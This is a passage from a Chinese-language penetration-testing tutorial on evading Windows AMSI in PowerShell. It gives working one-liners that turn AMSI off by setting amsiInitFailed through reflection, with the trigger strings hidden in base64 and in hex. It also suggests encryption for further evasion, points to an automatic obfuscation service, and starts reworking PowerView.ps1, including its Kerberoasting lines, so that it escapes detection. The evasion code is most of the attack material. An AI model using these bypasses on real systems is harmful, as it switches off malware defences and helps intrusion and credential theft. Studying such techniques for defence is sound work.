 因此，如果我们修改这两个字符串，将其编码为 base64，并在运行时进行解码，使用以下脚本可以达到效果：

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


```

在写这篇文章的时候，该技巧足以绕过所有的触发规则。为了好玩，我们对 HEX 值也做同样的处理。获取这些触发字符串的 HEX 值的方法是这样的：

```
'AmsiUtils' | Format-Hex
'amsiInitFailed' | Format-Hex -Encoding utf8


```

在运行时解码，因此多了一个有效的 Bypass 是这样的：

```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)


```

当然，我们可以结合不同的编码技术、拼接和例如 AES 或 3DES 等加密技术来获得一个不会触发 AMSI 的脚本。与编码方式相比，加密的方式是绕过 AMSI 最可靠的方法。因为强加密算法在密文有着非常高的随机性。但我将编码和加密的方法都结合呈现出来，以便读者更好的对比学习。

在这一点上，我很确定这里的两个 Bypass 技巧很快就会被标记。所以，如果你不想做这么多的工作进行 AMSI 绕过，我这里还推荐 Flangvik 的 [amsi.fail](https://amsi.fail/) 项目，该项目可以自动为你的脚本进行修改。

直到今天，我仍然在大多数的渗透测试中使用开源的 powerhell 项目，尽管有 "约束语言模式"、"AMSI" 或 "脚本块记录" 等措施。但很多公司只实现了这些措施中的某些部分或压根没有实现。因此，我将以另一个例子来说明一个已经被标记很久的脚本是如何绕过 AMSI 的，它就是 `Powerview.ps1`。

*   首先要做的就是删除所有的注释，我注释中发现了很多的触发字符；
*   此外，我们还要减少不必要的代码，可以通过正则来删除它们，这次我打算使用 `ISE-Steroids`。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20200913141032-d4a90446-f587-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20200913141032-d4a90446-f587-1.jpeg)

我们在这里暂时不做任何混淆，因为我们要准确定位触发器。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20200913141037-d77d9236-f587-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20200913141037-d77d9236-f587-1.jpeg)

现在运行 AMSITrigger 来检测运行所产生的脚本，会发现以下两行是类似触发器的 regex。

```
if ($PSBoundParameters['Identity']) { $UserSearcherArguments['Identity'] = $Identity }
        Get-DomainUser @UserSearcherArguments | Where-Object {$_.samaccountname -ne 'krbtgt'} | Get-DomainSPNTicket"


```
